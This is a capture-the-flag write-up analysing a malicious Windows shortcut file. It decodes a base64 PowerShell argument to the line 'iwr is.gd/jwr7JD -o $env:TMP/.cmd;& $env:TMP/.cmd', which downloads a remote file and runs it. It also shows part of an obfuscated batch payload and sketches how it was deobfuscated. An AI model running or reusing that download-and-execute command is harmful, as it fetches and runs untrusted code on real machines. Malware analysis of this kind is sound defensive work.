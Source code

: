 ## Russian_roulette
So we are given the file `Windows PowerShell.lnk`, which we can assume is malicious due to the nature of the challenges. Lets try to avoid execution if possible. Using the `cat` command we can obtain base64 which we can easily decode.
```python
$cat Windows\ PowerShell.lnk

*snip*
powershell.exeh-g$�|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe?..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exeC:\Windows\system32�-e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
*snip*

$ echo -n "aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=" | base64 -d

iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd
```
So looks like iwr (Invoke-WebRequest) is downloading from is.gd/jwr7JD to the /TMP directory. Following the URL and downloading the file yields `powershell.zip`. Sus name.
Lets see what we can enumerate before trying to execute or anything. Again using `cat` let's see if we get anything useful.
```python
��&cls
@echo off
set ucbw=set
:: Путешествия в воображении, как и путешествия в реальности, могут привести к удивительным открытиям и незабываемым встречам с персонажами, которые живут на грани воображаемого и реального.
%ucbw% qmy= 
*snip*
```
There is a **LOT** in this file, but upon inspection, it looks like obfuscated code is interlaced with Russian text. Delete the Russian, and it appears chars are being stored as variables with random names.
- delete russian ramblings, deobfuscate the ps script, which contains another base64 encoded value which then translates to ps running C# code
- cleaning up the C# code and executing it, provides the flag
